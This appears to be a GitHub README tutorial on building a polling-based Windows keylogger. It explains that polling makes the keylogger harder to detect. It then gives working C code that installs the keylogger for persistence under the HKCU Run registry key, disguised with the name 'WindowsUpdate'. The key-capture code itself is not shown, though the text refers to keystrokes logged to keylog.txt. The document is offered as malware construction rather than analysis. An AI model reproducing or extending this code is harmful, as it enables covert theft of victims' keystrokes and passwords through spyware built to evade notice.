

# polling-based keylogger

A **polling-based keylogger** is a type of keylogger that works by repeatedly checking (polling) the state of the keyboard at fixed intervals, rather than using interrupt-driven or OS-level event hooks. Here's a breakdown:

### How It Works

1. **Continuous Checking**  
   The keylogger actively scans the keyboard buffer or hardware state many times per second (e.g., 50–1000Hz).

2. **No OS Hooks**  
   Unlike API-based keyloggers (e.g., Windows `SetWindowsHookEx`), it doesn’t rely on OS event systems, making it harder to detect.

3. **Low-Level Access**  
   Often reads directly from:
   - Hardware ports (`0x60` on x86 for PS/2 keyboards)
   - Kernel memory (e.g., `/dev/input` on Linux)
   - BIOS/UEFI firmware (for pre-OS logging)

---


to see the list of all the keys click [here](https://learn.microsoft.com/en-us/windows/win32/inputdev/virtual-key-codes)

you can see the key strokes and also see the keysrokes are also saved in the keylog.txt



---

<br>


# Adding Persistence to the Keylogger

there are many ways to add persistence to the keylogger

- Registry Run Key (Windows)
- Scheduled Task
- Startup Folder
- Service Installation

but we will be using registry to add persistance


```c
void AddToRegistry()
{
    HKEY hKey;
    const char *path = "Software\\Microsoft\\Windows\\CurrentVersion\\Run";
    char exePath[MAX_PATH];

    // Get current executable path
    GetModuleFileName(NULL, exePath, MAX_PATH);

    // Add to registry
    if (RegOpenKeyEx(HKEY_CURRENT_USER, path, 0, KEY_WRITE, &hKey) == ERROR_SUCCESS)
    {
        RegSetValueEx(hKey, "WindowsUpdate", 0, REG_SZ, (BYTE *)exePath, strlen(exePath) + 1);
        RegCloseKey(hKey);
    }
}
```


